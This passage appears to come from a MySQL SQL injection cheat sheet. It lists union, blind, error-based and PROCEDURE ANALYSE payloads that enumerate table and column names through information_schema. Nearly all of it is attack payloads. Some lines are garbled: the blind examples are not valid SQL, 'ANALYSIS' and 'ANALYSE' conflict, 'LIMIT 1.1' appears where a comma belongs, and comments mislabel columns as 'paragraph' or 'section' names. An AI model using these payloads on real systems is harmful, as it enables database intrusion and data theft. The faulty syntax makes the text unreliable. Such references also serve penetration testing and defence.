 === "blind"
    ```sql
    AND
    SELECT SUBSTR(table_name, 1, 1)
    FROM information_schema.tables > 'A'
    ```

=== "Error"
    ```sql
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0);
    AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
    -- Successful in version 5.1.5.
    ```

### Column name

=== "union query"
    ```sql
    UNION
    SELECT GROUP_CONCAT(column_name)
    FROM information_schema.columns
    WHERE table_name = 'tablename'
    ```

=== "blind"
    ```sql
    AND
    SELECT SUBSTR(column_name, 1, 1)
    FROM information_schema.columns > 'A'
    ```

=== "Error"
    ```sql
    -- Successful in version 5.1.5
    AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
    -- MySQL 5.1 has been fixed
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0);
    AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
    ```

=== "Use PROCEDURE ANALYSIS ()"
    ```sql
    -- This requires a web display page with a field for the query you injected
    -- Get the first paragraph name
    SELECT username, permission
    FROM Users
    WHERE id = 1;
    1 PROCEDURE ANALYSE()
    -- Get the second section name
    1 LIMIT 1.1 PROCEDURE ANALYSIS ()
    -- Get the third paragraph name
    1 LIMIT 2.1 PROCEDURE ANALYSIS ()
    ```
